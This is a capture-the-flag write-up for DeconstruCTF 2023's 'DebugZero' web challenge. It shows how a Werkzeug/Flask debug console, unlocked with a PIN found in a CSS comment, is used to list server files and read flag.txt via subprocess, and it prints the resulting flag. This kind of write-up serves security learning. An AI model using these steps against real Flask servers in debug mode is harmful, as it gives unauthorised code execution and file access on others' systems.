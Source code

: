 ```yaml
---
title: DeconstruCTF 2023 - DebugZero
date: Sun Aug  6 12:45:53 PM +04 2023
categories: [Writeup]
tags: [ctf,deconstructf,deconstructf2023,web,debug]
---
```


## Description

Someone on the dev team fat fingered their keyboard, and deployed the wrong app to production. Try and find what went wrong. The flag is in a file called "flag.txt"

## Solution

Website: **This website is currently under  _development_**

Taking a look at source code:

```html
<!-- John, please don't run the app in debug mode, how many times do I have to tell you this! -->
```

There's no interesting links to go to, nor does `robots.txt` exist... What's this local file `static/styles.css`?

```css
/* Nothing interesting here except this number - 934123 */
```

0w0 Pin number? and debug mode is on?

If you have worked with flask applications this must be familiar to you.<br>
HackTricks also has information about [Flask Debug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#pin-protected-path-traversal)

Navigate to `/console`:

```py
[console ready]
>>> import os
>>> os.listdir()
['.dockerignore', '.gitignore', 'Dockerfile', 'app.py', 'flag.txt', 'requirements.txt', 'static', 'templates']
>>> os.system('cat flag.txt')
0 # Doesnt Work...
>>> import subprocess
>>> subprocess.check_output(["cat", "flag.txt"])
b'dsc{p1zz4_15_4w350m3}\n'
```

> Flag: dsc{p1zz4_15_4w350m3}
{: .prompt-tip }